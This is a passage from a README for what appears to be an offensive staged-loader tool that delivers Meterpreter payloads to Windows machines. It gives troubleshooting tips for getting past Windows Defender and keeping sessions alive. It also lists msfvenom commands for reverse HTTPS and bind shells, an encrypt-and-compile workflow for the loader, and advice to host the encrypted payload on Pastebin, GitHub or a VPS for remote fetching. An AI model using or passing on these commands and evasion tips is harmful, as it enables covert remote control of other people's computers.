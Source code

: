 ### No Meterpreter session
- Check listener is running: `./start_listener.sh`
- Verify firewall allows the port
- Type `sessions -l` in Metasploit to check for sessions
- Session may take 5-10 seconds to establish

### Loader caught by Defender
- The **loader itself** should be clean (no MSFVenom)
- Defender may catch during **execution** (behavioral detection)
- Try on VM without Defender first
- Use different payload type (reverse_tcp vs reverse_https)

### Session dies immediately
- Use stageless payload (already configured)
- Check network connectivity
- Try simpler payload (shell_reverse_tcp)

---

## 🔧 Advanced Usage

### Custom Payloads

Generate different payload types:

```bash
# Reverse HTTPS (more stealthy)
msfvenom -p windows/x64/meterpreter_reverse_https \
  LHOST=<IP> LPORT=443 -f raw -o reverse_shell.bin

# Bind TCP
msfvenom -p windows/x64/meterpreter_bind_tcp \
  LPORT=4444 -f raw -o reverse_shell.bin

# Encrypt and rebuild
python3 encrypt_payload.py reverse_shell.bin payload.enc
# Update staged_loader.c with new key from payload_keys.h
x86_64-w64-mingw32-gcc -O2 -s staged_loader.c -o staged_loader.exe -lurlmon
```

### Remote Hosting

Instead of local HTTP server, host payload on:
- **Pastebin** (upload payload.enc, use raw URL)
- **GitHub** (use raw.githubusercontent.com URL)
- **Your VPS** (HTTPS recommended)

Update `staged_loader.c` line 42 with new URL.

---

## 📚 Additional Resources
